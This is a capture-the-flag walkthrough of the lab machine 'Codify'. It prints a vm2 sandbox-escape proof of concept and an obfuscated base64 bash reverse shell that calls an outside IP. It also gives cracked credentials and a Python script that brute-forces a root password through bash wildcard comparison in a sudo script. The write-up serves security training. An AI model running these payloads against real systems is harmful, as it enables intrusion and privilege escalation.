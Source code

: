 # Codify
## Enumeration:

Start off with an NMAP scan:
```bash
$ nmap -A -Pn -v -p- --min-rate=1000 10.10.11.239

Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.20s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at the WebApp, it is a Node.js sandbox environment to run and test javascript code. There are 2 main endpoints:
- /editor - Actual code editor
- /limitations - talks about the modules whitelisted and the ones blacklisted
- /about - talks about Codify and the technology used behind it, specifically `vm2 version 3.9.16`

## Exploit:

Looking for vulnerabilities in `vm2`, we come across the following: [CVE-2023-32314](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

The link also provides a POC which can be used to bypass the sandbox and get RCE:
```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

We can replace the `echo hacked` with any code to perform RCE. (Personally I use the following payload which is just base64 reverse shell being piped to bash: `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMS85MDAwIDA+JjEK | base64 -d | bash`)

We get onto the system as the user `svc`. Looking around, we find `/var/html/contact/tickets.db` which is simply an SQLite3 database file which contains a table called `users` having the brypt hash for the joshua user.

`joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1`

With joshua's password, we can SSH and find the user flag.

User flag is in `/home/joshua/user.txt`

## Priv-Esc:

Running `sudo -l` will give the following output:
```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can run `/opt/scripts/mysql-backup.sh` as root. Looking at the script file, we see the following:
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The script checks the root password, stored in `/root/.creds` with the root password we provide as user input and then uses it to log into mysql, dump the databases and get a backup of them.

The problem comes with the way the comparison between the user input and the stored credential happens. In bash, when it comes to `==`, we can use the `*` wildcard character to match anything as true. We can use this to bruteforce the password by running a character set against the wildcard to determine which characters are valid. This works by simply running input like `a*` or `b*` or `aa*` till the condition evaluates to true. I made a python script to automate the above and return the password:

```python
import subprocess
import string

guess = ''

def brute(guess):
    charset = string.ascii_letters + string.digits + '-+/=\n'
    # Define the command to run
    command = "sudo /opt/scripts/mysql-backup.sh"
    
    # Define LOOP
    LOOP = True
    
    while LOOP:
        c = None
        for c in charset:
            # Start a new subprocess for each attempt
            process = subprocess.Popen(command, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
            password = guess + c + "*\n"
            process.stdin.write(password)
            process.stdin.flush()
            
            # Read the output from the process
            output, errors = process.communicate()
            if "Password confirmed!" in output:
                guess += c
                print(guess,end="\r")
                break
        if c == '\n':
            LOOP = False
    
    return guess

result = brute(guess)
print('Result is ' + result)
```

This reveals the following credentials:
`root:kljh12k3jhaskjh12kjh3`

We can use this to `su` as root and get the root flag.
Root flag can be found in `/root/root.txt`
